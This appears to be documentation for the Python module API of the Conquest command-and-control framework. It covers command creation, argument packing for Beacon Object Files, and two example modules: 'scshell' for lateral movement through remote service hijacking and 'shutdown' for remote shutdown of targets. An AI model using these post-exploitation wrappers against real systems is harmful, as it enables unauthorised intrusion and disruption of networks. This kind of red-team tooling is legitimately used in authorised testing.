

# Python Module API <!-- omit from toc -->

> [!TIP] 
>  Conquest's module system is covered in-depth in this blog post: https://jakobfriedl.github.io/blog/conquest-modules/. 

The Python Module API enables users of the Conquest framework to add their own commands by creating wrappers for post-exploitation capabilities in the form of Beacon Object Files (BOFs). The advantage of an approach like this is the ablility to keep the payload minimal and limited to the core functionality, instead of implementating all features directly in the agent. Modules are defined in scripts that leverage a powerful and highly user-friendly Python API. 

## Contents <!-- omit from toc -->
- [Script Manager](#script-manager)
- [Scripting Engine](#scripting-engine)
- [API Reference](#api-reference)
  - [Command Creation](#command-creation)
    - [`conquest.createModule(name, description)`](#conquestcreatemodulename-description)
    - [`conquest.createCommand(name, description, example, message, mitre=[]) -> Command`](#conquestcreatecommandname-description-example-message-mitre---command)
    - [`.addArgString(name, description, required=False, default="", nargs=1) -> Command`](#addargstringname-description-requiredfalse-default-nargs1---command)
    - [`.addFlagString(flag, name, description, required=False, default="", nargs=1) -> Command`](#addflagstringflag-name-description-requiredfalse-default-nargs1---command)
    - [`.addArgInt(name, description, required=False, default=0) -> Command`](#addargintname-description-requiredfalse-default0---command)
    - [`.addFlagInt(flag, name, description, required=False, default=0) -> Command`](#addflagintflag-name-description-requiredfalse-default0---command)
    - [`.addFlagBool(flag, name, description, default=False) -> Command`](#addflagboolflag-name-description-defaultfalse---command)
    - [`.addArgFile(name, description, required=False, default="") -> Command`](#addargfilename-description-requiredfalse-default---command)
    - [`.addFlagFile(flag, name, description, required=False, default="") -> Command`](#addflagfileflag-name-description-requiredfalse-default---command)
    - [`.setHandler(handler) -> Command`](#sethandlerhandler---command)
    - [`.setOutputHandler(handler) -> Command`](#setoutputhandlerhandler---command)
    - [`.registerToGroup(group) -> Command`](#registertogroupgroup---command)
    - [`.registerToModule(module) -> Command`](#registertomodulemodule---command)
  - [Command Execution](#command-execution)
    - [`conquest.execute_command(agentId, command, silent=False)`](#conquestexecute_commandagentid-command-silentfalse)
    - [`conquest.execute_alias(agentId, command, alias, silent=False)`](#conquestexecute_aliasagentid-command-alias-silentfalse)
  - [Argument Parsing](#argument-parsing)
    - [`conquest.get_string(args, i=0) -> str`](#conquestget_stringargs-i0---str)
    - [`conquest.get_int(args, i=0) -> int`](#conquestget_intargs-i0---int)
    - [`conquest.get_bool(args, i=0) -> bool`](#conquestget_boolargs-i0---bool)
    - [`conquest.get_file(args, i=0) -> tuple[str, list[byte]]`](#conquestget_fileargs-i0---tuplestr-listbyte)
  - [Utility Functions](#utility-functions)
    - [`conquest.bof_pack(types, args) -> str`](#conquestbof_packtypes-args---str)
    - [`conquest.pack(types, args) -> list[byte]`](#conquestpacktypes-args---listbyte)
    - [`conquest.error(agentId, message, cmdline)`](#conquesterroragentid-message-cmdline)
    - [`conquest.output(agentId, message)`](#conquestoutputagentid-message)
    - [`conquest.warn(agentId, message)`](#conquestwarnagentid-message)
    - [`conquest.info(agentId, message)`](#conquestinfoagentid-message)
    - [`conquest.set_impersonation(agentId, token)`](#conquestset_impersonationagentid-token)
    - [`conquest.modules_root() -> str`](#conquestmodules_root---str)
    - [`conquest.user() -> str`](#conquestuser---str)
    - [`conquest.debug_log(message)`](#conquestdebug_logmessage)
- [Examples](#examples)
  - [scshell](#scshell)
  - [shutdown](#shutdown)

## Script Manager

The **Script Manager** component is used to load and unload Conquest Python Modules on the client. These modules define commands that can be used in the agent console. Clicking the `Load Script` button opens a file explorer where an appropriate file can be chosen. This UI component is hidden by default and can be shown by selecting `Views -> Script Manager`. When a loaded script contains a syntax error, it is highlighted in red as seen in the screenshot below. 

 

## Scripting Engine

The scripting engine processes a Python module and adds commands to command groups or modules. The difference between these two concepts is the following: 

- **Modules** can be enabled/disabled during payload generation. In practice, this should only be used for the default core modules (filesystem, token, ...)
- **Command Groups** are used to structure commands in the output of the `help` command. This allows the module developer group together commands that fall under the same category (such as conducting situational awareness or execute code). Every command needs to be added to at least one command group to be able to be used. 

## API Reference 
Import the `conquest` module at the top of any script to access the API:

```python
import conquest
```

The API is divided into four categories: command creation, command execution, argument parsing, and utilities.

---

### Command Creation

#### `conquest.createModule(name, description)`
Register a new module that can be enabled during payload generation.

| Parameter | Type | Description |
| --- | --- | --- |
| `name` | `str` | Module name. |
| `description` | `str` | Short description of the module. |

---

#### `conquest.createCommand(name, description, example, message, mitre=[]) -> Command`
Create a new command definition. Returns a `Command` object that can be chained with argument and registration calls.

| Parameter | Type | Description |
| --- | --- | --- |
| `name` | `str` | Command name as typed in the agent console. |
| `description` | `str` | Short description shown in the `help` output. |
| `example` | `str` | Example usage shown in the `help` output. |
| `message` | `str` | Message logged to the console when the command is tasked. |
| `mitre` | `list[str]` | Optional list of MITRE ATT&CK technique IDs. |

---


#### `.addArgString(name, description, required=False, default="", nargs=1) -> Command`
Add a positional string argument.

| Parameter | Type | Description |
| --- | --- | --- |
| `name` | `str` | Argument name. |
| `description` | `str` | Argument description. |
| `required` | `bool` | Whether the argument is required. Default: `False`. |
| `default` | `str` | Default value if not provided. |
| `nargs` | `int` | Number of tokens to consume. Use `-1` to consume all remaining tokens. |

---

#### `.addFlagString(flag, name, description, required=False, default="", nargs=1) -> Command`
Add a named string flag (e.g. `--server`).

| Parameter | Type | Description |
| --- | --- | --- |
| `flag` | `str` | Flag name including prefix (e.g. `--server`). |
| `name` | `str` | Internal argument name. |
| `description` | `str` | Argument description. |
| `required` | `bool` | Whether the flag is required. Default: `False`. |
| `default` | `str` | Default value if not provided. |
| `nargs` | `int` | Number of tokens to consume. Default: `1`. |

---

#### `.addArgInt(name, description, required=False, default=0) -> Command`
Add a positional integer argument.

| Parameter | Type | Description |
| --- | --- | --- |
| `name` | `str` | Argument name. |
| `description` | `str` | Argument description. |
| `required` | `bool` | Whether the argument is required. Default: `False`. |
| `default` | `int` | Default value if not provided. Default: `0`. |

---

#### `.addFlagInt(flag, name, description, required=False, default=0) -> Command`
Add a named integer flag.

| Parameter | Type | Description |
| --- | --- | --- |
| `flag` | `str` | Flag name including prefix (e.g. `--port`). |
| `name` | `str` | Internal argument name. |
| `description` | `str` | Argument description. |
| `required` | `bool` | Whether the flag is required. Default: `False`. |
| `default` | `int` | Default value if not provided. Default: `0`. |

---

#### `.addFlagBool(flag, name, description, default=False) -> Command`
Add a boolean flag. Boolean flags take no value — their presence sets the value to `True`.

| Parameter | Type | Description |
| --- | --- | --- |
| `flag` | `str` | Flag name including prefix (e.g. `--verbose`). |
| `name` | `str` | Internal argument name. |
| `description` | `str` | Argument description. |
| `default` | `bool` | Default value. Default: `False`. |

---

#### `.addArgFile(name, description, required=False, default="") -> Command`
Add a positional file argument. The file is read from disk on the operator client and packed as `(filename, contents)` before being sent to the agent.

| Parameter | Type | Description |
| --- | --- | --- |
| `name` | `str` | Argument name. |
| `description` | `str` | Argument description. |
| `required` | `bool` | Whether the argument is required. Default: `False`. |
| `default` | `str` | Default file path if not provided. |

---

#### `.addFlagFile(flag, name, description, required=False, default="") -> Command`
Add a named file flag.

| Parameter | Type | Description |
| --- | --- | --- |
| `flag` | `str` | Flag name including prefix (e.g. `--payload`). |
| `name` | `str` | Internal argument name. |
| `description` | `str` | Argument description. |
| `required` | `bool` | Whether the flag is required. Default: `False`. |
| `default` | `str` | Default file path if not provided. |

---

#### `.setHandler(handler) -> Command`
Attach a Python handler function to the command. The handler is called on the client side before the command is dispatched to the agent, allowing for preprocessing, validation, and BOF argument construction. Longer commands should make use of a named handler that is defined as a function with the following signature:

```python
def _handler(agentId, cmdline, args):
    confirm = conquest.get_bool(args, 0)
    if not confirm:
        conquest.error(agentId, "Set the --confirm flag to proceed.", cmdline)
        return

    bof    = conquest.modules_root() + "/path/to/module.x64.o"
    params = conquest.bof_pack("z", [conquest.get_string(args, 1)])

    if os.path.exists(bof):
        conquest.execute_alias(agentId, cmdline, f"bof {bof} {params}")
    else:
        conquest.error(agentId, f"Failed to open object file: {bof}", cmdline)
```

For simple commands that require no validation or branching, a **lambda** is the preferred approach. Python's walrus operator (`:=`) is used to assign intermediate values inline:

```python
.setHandler(lambda agentId, cmdline, args: (
    confirm := conquest.get_bool(args, 0),

    conquest.error(agentId, "Set the --confirm flag to proceed.", cmdline) if not confirm
    else (
        bof    := conquest.modules_root() + "/path/to/module.x64.o",
        params := conquest.bof_pack("z", [conquest.get_string(args, 1)]),

        conquest.execute_alias(agentId, cmdline, f"bof {bof} {params}") if os.path.exists(bof)
        else conquest.error(agentId, f"Failed to open object file: {bof}", cmdline)
    )
))
```

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `cmdline` | `str` | Raw command line as typed by the operator. |
| `args` | `list[TaskArg]` | Parsed argument list. Access values using the argument parsing functions. |

---

#### `.setOutputHandler(handler) -> Command`
Attach a Python handler function that is called when the agent returns output for this command. Unlike `setHandler`, which runs before dispatch, the output handler runs after the agent responds.

The handler must have the following signature:

```python
def _output_handler(agentId, output):
    # Process or format agent output 
    conquest.output(agentId, output.upper())
```

As the command handler, the output handler should be handled using a `lambda` when complex processing is not required.

```python 
.setOutputHandler(lambda agentId, output: (
    text := output.split(" ")[0], 
    conquest.output(agentId, text)
))
```

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the agent that produced the output. |
| `output` | `str` | Raw output string returned by the agent. |

---

#### `.registerToGroup(group) -> Command`
Register the command to a command group. The group is created automatically if it does not exist.

| Parameter | Type | Description |
| --- | --- | --- |
| `group` | `str` | Name of the command group (e.g. `"lateral movement"`). |

---

#### `.registerToModule(module) -> Command`
Register the command to an existing module. The module must have been created with `createModule` first.

| Parameter | Type | Description |
| --- | --- | --- |
| `module` | `str` | Name of the module to register the command to. |

---

### Command Execution

#### `conquest.execute_command(agentId, command, silent=False)`
Dispatch a command string to the agent as-is.

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `command` | `str` | Full command string to dispatch. |
| `silent` | `bool` | If `True`, the result is not printed to the console. Default: `False`. |

---

#### `conquest.execute_alias(agentId, command, alias, silent=False)`
Dispatch a command to the agent using an alias. The `command` string is logged to the console, while `alias` is the string that is actually parsed and dispatched.

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `command` | `str` | Command string to display in the console. |
| `alias` | `str` | Command string to actually dispatch to the agent. |
| `silent` | `bool` | If `True`, the result is not printed to the console. Default: `False`. |

This is the primary function used when wrapping BOFs. The operator sees the high-level command (e.g. `scshell dc01 payload.exe`) in the console, while the actual task sent to the agent is the underlying `bof` command with packed arguments.

---

### Argument Parsing

These functions extract typed values from the `args` list passed to a command handler.

#### `conquest.get_string(args, i=0) -> str`
Get the string value of the argument at index `i`.

| Parameter | Type | Description |
| --- | --- | --- |
| `args` | `list[TaskArg]` | Argument list from the handler. |
| `i` | `int` | Index of the argument. Default: `0`. |

---

#### `conquest.get_int(args, i=0) -> int`
Get the integer value of the argument at index `i`.

| Parameter | Type | Description |
| --- | --- | --- |
| `args` | `list[TaskArg]` | Argument list from the handler. |
| `i` | `int` | Index of the argument. Default: `0`. |

---

#### `conquest.get_bool(args, i=0) -> bool`
Get the boolean value of the argument at index `i`.

| Parameter | Type | Description |
| --- | --- | --- |
| `args` | `list[TaskArg]` | Argument list from the handler. |
| `i` | `int` | Index of the argument. Default: `0`. |

---

#### `conquest.get_file(args, i=0) -> tuple[str, list[byte]]`
Get the filename and raw byte contents of a file argument at index `i`. Returns a tuple of `(filename, data)`.

| Parameter | Type | Description |
| --- | --- | --- |
| `args` | `list[TaskArg]` | Argument list from the handler. |
| `i` | `int` | Index of the argument. Default: `0`. |

```python
filename, data = conquest.get_file(args, 1)
```

To convert the raw bytes to a string (e.g. for text files, XML), use any encoding format (`utf-8`, `latin-1`). 

```python
text = bytes(data).decode('<encoding>')
```

---

### Utility Functions

#### `conquest.bof_pack(types, args) -> str`
Pack arguments into a HEX-encoded string for use with the `bof` command. Returns a HEX string prefixed with the total data length.

| Parameter | Type | Description |
| --- | --- | --- |
| `types` | `str` | Type format string. One character per argument. |
| `args` | `list` | List of argument values matching the type string. |

To figure out what the format string needs to look like, inspect the `go` entry point of the Beacon Object Files and note which functions are used to unpack the information. 

| Type char | Description | Unpacking Beacon API | 
| --- | --- | --- | 
| `b` | Binary data (raw bytes with 4-byte length prefix) | char* ... = BeaconDataExtract | 
| `i` | 4-byte integer | int ... = BeaconDataInt |
| `s` | 2-byte short integer | short ... = BeaconDataShort | 
| `z` | Null-terminated UTF-8 string with 4-byte length prefix | void*/char* ... = BeaconDataExtract | 
| `Z` | Null-terminated UTF-16 wide string with 4-byte length prefix | wchar_t* ... = (wchar_t*)BeaconDataExtract | 


```python
params = conquest.bof_pack("zzi", [
    hostname,       # z: hostname 
    username,       # z: username
    port            # i: port
    int(boolean)    # i: boolean flag is converted to integer for packing
])
conquest.execute_alias(agentId, cmdline, f"bof {bof_path} {params}")
```

The `bof_pack` function is based on the Cobalt Strike's Agressor Script function with the same name. Consider the following resources for more information. 

- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bof_pack
- https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py   

---

#### `conquest.pack(types, args) -> list[byte]`
Pack arguments into raw bytes. 

| Parameter | Type | Description |
| --- | --- | --- |
| `types` | `str` | Type format string. One character per argument. |
| `args` | `list` | List of argument values matching the type string. |

| Type char | Description |
| --- | --- |
| `b` | Binary data |
| `i` | 4-byte integer (big-endian) |
| `I` | 4-byte integer (little-endian) |
| `s` | 2-byte short integer |
| `z` | Null-terminated UTF-8 string |
| `Z` | Null-terminated UTF-16 wide string |

```python
reg_data = conquest.pack("i", [data])       # Convert integer into byte sequence
```

Consider the following resources for more information: 

- https://sleep.dashnine.org/manual/pack.html

---

#### `conquest.error(agentId, message, cmdline)`
Log an error message to the agent console.

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `message` | `str` | Error message to display. |
| `cmdline` | `str` | Command line to display above the error. |

---

#### `conquest.output(agentId, message)`
Log an output message to the agent console. Intended for use inside output handlers to write post-processed agent output back to the console.

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `message` | `str` | Output message to display. |

---

#### `conquest.warn(agentId, message)`
Log an warning message to the agent console.

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `message` | `str` | Output message to display. |

---

#### `conquest.info(agentId, message)`
Log an informational message to the agent console. 

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `message` | `str` | Output message to display. |

---

#### `conquest.set_impersonation(agentId, token)`
Set the agent's token impersonation.

| Parameter | Type | Description |
| --- | --- | --- |
| `agentId` | `str` | ID of the target agent. |
| `token` | `str` | Impersonation token/username of the impersonated user. |

---

#### `conquest.modules_root() -> str`
Return the absolute path to the `data/modules` directory. Use this to locate BOF object files shipped with the module.

```python
bof = conquest.modules_root() + "/path/to/objectfile.x64.o"
```

---

#### `conquest.user() -> str`
Return the username of the currently authenticated operator.

---

#### `conquest.debug_log(message)`
Print a message to stdout on the client for debugging purposes.

| Parameter | Type | Description |
| --- | --- | --- |
| `message` | `str` | Message to print. |

---

## Examples 

For implementation references and examples, check out the official [conquest-modules](https://github.com/jakobfriedl/conquest-modules) GitHub repository. The following two examples are samples from this collection.

### scshell 

```python
import conquest 
import os.path 

def _scshell(agentId, cmdline, args): 
    target = conquest.get_string(args, 0)
    payloadName, payloadBytes = conquest.get_file(args, 1)
    service = conquest.get_string(args, 2)
    name = conquest.get_string(args, 3)
    share = conquest.get_string(args, 4)

    # Format path
    path = f"\\\\{target}\\{share}\\{name if name else service}"
    if not path.endswith(".exe"): path += ".exe"

    bof = conquest.modules_root() + "/lateral-movement/scshell/scshell.x64.o"
    params = conquest.bof_pack("zzzb", [
        target,         # z: Target system
        service,        # z: Target service
        path,           # z: Payload path
        payloadBytes,   # b: Payload bytes         
    ])
    
    if os.path.exists(bof):
        conquest.execute_alias(agentId, cmdline, f"bof {bof} {params}")
    else:
        conquest.error(agentId, f"Failed to open object file: {bof}", cmdline)

cmd_scshell = (
    conquest.createCommand(name="scshell", description="Perform fileless lateral movment by modifying an existing remote service's binary path (SCShell tool).", example="scshell dc01 bin/monarch.smb_x64.svc.exe --service Spooler --name update.exe",
                           message="Tasked agent to perform fileless lateral movement via SCShell.", mitre=["T1021.002"])
            .addArgString("target", "Target system hostname or IP address.", True)
            .addArgFile("payload", "Path to payload to execute on the target.", True)
            .addFlagString("--service", "service", "Target service (default: defragsvc).", False, "defragsvc")
            .addFlagString("--name", "name", "Target service name (default: Name of the target service).")
            .addFlagString("--share", "share", "Share for copying payload (default: ADMIN$).", False, "ADMIN$")
            .setHandler(_scshell)            
).registerToGroup("lateral movement")
```

### shutdown

```python
import conquest
import os.path

cmd_shutdown = ( 
    conquest.createCommand(name="shutdown", description="Shutdown or reboot a target system.", example="shutdown --message \"Goodbye from Conquest\" --in 20 --reboot",
                           message="Tasked agent to shutdown a computer.", mitre=[])
            .addArgString("target", "Target system (default: local computer).")
            .addFlagString("--message", "message", "Message to display before shutdown (default: none).")
            .addFlagInt("--in", "seconds", "Number of seconds before shutdown/reboot (default: 0).")
            .addFlagBool("--close-apps", "close-apps", "Close all running applications without saving.")
            .addFlagBool("--reboot", "reboot", "Reboot system after shutdown.")
            .addFlagBool("--confirm", "confirm", "Confirm shutdown. This flag acts as a safety net to prevent unwanted shutdowns/reboots")
            .setHandler(lambda agentId, cmdline, args: (
                target := conquest.get_string(args, 0),
                message := conquest.get_string(args, 1),
                seconds := conquest.get_int(args, 2),
                closeApps := conquest.get_bool(args, 3),
                reboot := conquest.get_bool(args, 4),
                confirm := conquest.get_bool(args, 5),

                conquest.error(agentId, "Set the --confirm flag to shutdown the target system.", cmdline) if not confirm
                else (
                    
                    bof := conquest.modules_root() + "/remote-operations/CS-Remote-OPs-BOF/Remote/shutdown/shutdown.x64.o",
                    params := conquest.bof_pack("zziss", [
                        target,                 # z: Target system
                        message,                # z: Shutdown message
                        seconds,                # i: Seconds until shutdown
                        int(closeApps),         # s: Close apps without saving
                        int(reboot)             # s: Reboot after shutdown
                    ]),

                    conquest.execute_alias(agentId, cmdline, f"bof {bof} {params}") if os.path.exists(bof)
                    else conquest.error(agentId, f"Failed to open object file: {bof}", cmdline)
                )
            ))
).registerToGroup("remote operations")
```